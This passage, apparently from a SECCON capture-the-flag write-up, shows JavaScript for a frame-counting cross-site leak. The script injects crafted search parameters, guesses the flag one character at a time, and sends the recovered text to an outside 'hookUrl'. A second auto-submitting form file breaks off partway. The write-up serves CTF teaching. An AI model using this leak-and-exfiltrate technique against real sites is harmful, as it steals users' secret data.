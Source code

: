```html
      const ws = [];

      for(const c of chars) {
        const injected = ' filteredNotes';

        const params = new URLSearchParams();
        params.append("search", prefix + c);
        params.append(injected, "x");
        params.append(injected + "[length]", "100000");
        params.append("msg", "<iframe></iframe>");

        ws.push(open(`${baseUrl}/?${params}`));
      }

      await sleep(2000);

      let nextChar = null;
      for(let i=0; i<ws.length; i++) {
        if (ws[i].length > 0) {
          nextChar = chars[i];
        }
        ws[i].close();
      }
      return nextChar;
    }

    const main = async () => {
      let prefix = "SECCON{"

      while(true) {
        await fetch(`${hookUrl}?flag=${encodeURIComponent(prefix)}`); // debug

        const c = await search(prefix);
        if (c == null) break;
        prefix += c;
      }

      location = `${hookUrl}?flag=${encodeURIComponent(prefix)}`;
    };

    main();
  </script>
</body>
```

```html
<!-- post.html -->

<!DOCTYPE html>
<html>

<head>
</head>

<body>
  <script>
    const submit = (url, pairs) => {
      const form = document.createElement("form");
      form.action = url;
      form.method = "post";
      for (const [k, v] of pairs) {
        const input = document.createElement("input");
        input.name = k;
        input.value = v;
```

[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).
[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/